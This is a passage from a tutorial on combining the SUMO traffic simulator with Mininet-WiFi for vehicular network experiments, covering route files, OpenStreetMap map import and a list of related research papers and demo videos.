 Since SUMO does not include access point objects, especially base stations for wireless connections, it would be quite interesting if someone made an implementation in this regard, right?

All codes related to SUMO integration with Mininet-WiFi can be found in the <_mn\_wifi/sumo_> directory. For instance, in this directory there is another folder called _data_, and inside _data_ there is a file named _new-york.rou.xml_. By modifying the code in this file, you can define the number of simulated vehicles, at what point they begin to move in _sumo-gui_, in addition to all the edges the vehicles must travel.

 You may be wondering: how can I customize my own scenario and extract my map from _OpenStreetMap_? Once [the SUMO part is ready](http://sumo.dlr.de/wiki/Networks/Import/OpenStreetMap), just replace the Mininet-WiFi files contained in the sumo/data directory and recompile the Mininet-WiFi code using sudo make install`.

If you have successfully completed this tutorial and also understood how SUMO works, you can proceed to the following steps, which will involve applying the solutions presented throughout this chapter to vehicular networks. More information about SUMO can be found on its [official website](http://www.sumo.dlr.de/).


**Some studies to which SUMO can be (or was) applied**:

    - Campolo, C., Fontes, R., Iera, A., Rothenberg, C., Molinaro, A. Towards 5G Network Slicing  for  the  V2X  Ecosystem.   Workshop  on  Advances  in  Slicing  for  Softwarized Infrastructures.  NETSOFT. Montreal, Canada, 2018
    - Al-Badarneh, J. Jararweh, Y. Al-Ayyoub, M. Fontes, R., Al-Smadi, M., Rothenberg, C. Cooperative Mobile Edge Computing System for VANET-Based Software Defined Content Delivery.  Elsevier Computers and Electrical Engineering, 2018
    - Badarneh, J. Jararweh, Y., Al-Ayyoub, M., Al-Smadi M., Fontes, R. Software Defined Storage for Cooperative Mobile Edge Computing System.  SDS. Valencia, Spain, 2017


**Research that used Mininet-WiFi for experimentation on vehicular networks**:

- Ramon dos Reis Fontes, Claudia Campolo, Christian Esteve Rothenberg, Antonella Molinaro. _From Theory to Experimental Evaluation: Resource Management in Software-Defined Vehicular Networks_. In IEEE Access, 2017. 
-  Seongjin Park and Younghwan Yoo.	_Network Intelligence based on Network State Information for Connected Vehicles Utilizing Fog Computing_. Mobile Information Systems, vol. 2017.
- Dharani Kumari Nooji Venkatramana, Shylaja Banagiri Srikantaiah, Jayalakshmi Moodabidri. 	_SCGRP: SDN-enabled connectivity-aware geographical routing protocol of VANETs for urban environment_. IET Networks, 2017.
-  Slamet Indriyanto, Muhammad Najib Dwi Satria, Andira Rizky Sulaeman, Rifqy Hakimi, Eueung Mulyana. _Performance Analysis of VANET Simulation on Software Defined Network_. In 3rd International Conference on Wireless and Telematics (ICWT), 2017.
- Soufian Toufga, Slim Abdellatif, Philippe Owezarski, Thierry Villemur. _OpenFlow based Topology Discovery Service in Software Defined Vehicular Networks: limitations and future approaches_. IEEE Vehicular Networking Conference (VNC), 2018.
- Zhenqian He, Bin Fu, Ao Cao, Jian Yu.	_A Solution for Mobility Management in Software Defined VANET_. IEEE 15th International Conference on Mobile Ad Hoc and Sensor Systems (MASS), 2018.
- Kuldip Singh Atwal, Ajay Guleria, Mostafa Bassiouni. _SDN-based Mobility Management and QoS Support for Vehicular Ad-hoc Networks_.  International Conference on Computing, Networking and Communications (ICNC), 2018. 
- Soufian Toufga, Philippe Owezarski, Slim Abdellatif, Thierry Villemur. _An SDN hybrid architecture for vehicular networks: Application to Intelligent Transport System_. ERTS, 2018.
- C. Campolo, R. Fontes, A. Molinaro, Christian Esteve Rothenberg, A. Iera. _Slicing on the Road: Enabling the Automotive Vertical through 5G Network Softwarization_. Sensors, 18, 4435.  2018.


 

[VANET-Based Software Defined Content Delivery Support for Cooperative Mobile Edge Computing Systems](https://youtu.be/skyHDlHdwcs)
[Mininet-WiFi and SUMO: Tracking the position of the nodes](https://www.youtube.com/watch?v=nywoltaRVSE)
